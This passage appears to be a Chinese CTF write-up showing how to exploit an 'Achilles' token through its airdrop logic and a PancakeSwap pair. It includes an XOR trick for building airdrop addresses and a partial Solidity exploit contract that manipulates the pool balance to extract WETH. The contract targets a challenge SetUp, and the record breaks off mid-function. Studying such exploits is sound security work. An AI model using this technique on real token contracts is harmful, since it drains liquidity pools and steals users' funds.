 这样就不用考虑 K 值的计算问题了，直接可以将 pool 里的 achilles 设置为一个极小值，然后给自己也 airdrop 一份，就能够把 100 eth (1/10) 的 weth 给换出来。

可以看到对 airdrop 的地址玩了一个小把戏，可以通过异或直接构造出来，用 pair 举例：

```solidity
// from: hack addr, to: x addr, seed: pair addr
// pair = (uint160(hack) | block.number) ^ (uint160(hack) ^ uint160(x))
// => x = (pair ^ (uint160(hack) | block.number)) ^ uint160(hack)
uint160 pair_seed = uint160(uint160(address(this)) | block.number) ^ uint160(address(this)) ^ uint160(address(pair));
```

??? info "EXP"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    import "./Achilles.sol";
    import "./WETH.sol";
    import "./Interface.sol";
    import "./PancakeSwap.sol";
    import "./SetUp.sol";

    import "hardhat/console.sol";

    contract Hack {
        
        SetUp public setup;
        Achilles public achilles;
        PancakePair public pair;
        WETH public weth;

        event Test(uint256 amount);

        constructor() {
            setup = new SetUp();
            pair = setup.pair();
            weth = setup.weth();
            achilles = setup.achilles();

            console.log("pair: %s", address(pair));
            console.log("weth: %s", address(weth));
            console.log("achilles: %s", address(achilles));
        }

        function run() public {
            pair.swap(999 ether, 0, address(this), "sakura");

            // from: hack addr, to: x addr, seed: pair addr
            // pair = (uint160(hack) | block.number) ^ (uint160(hack) ^ uint160(x))
            // => x = (pair ^ (uint160(hack) | block.number)) ^ uint160(hack)
            uint160 pair_seed = uint160(uint160(address(this)) | block.number) ^ uint160(address(this)) ^ uint160(address(pair));
            
            // achilles pool 设为 1 份
            achilles.transfer(address(pair_seed), 0);
            console.log("[*] achilles token in pool: ", achilles.balanceOf(address(pair)));
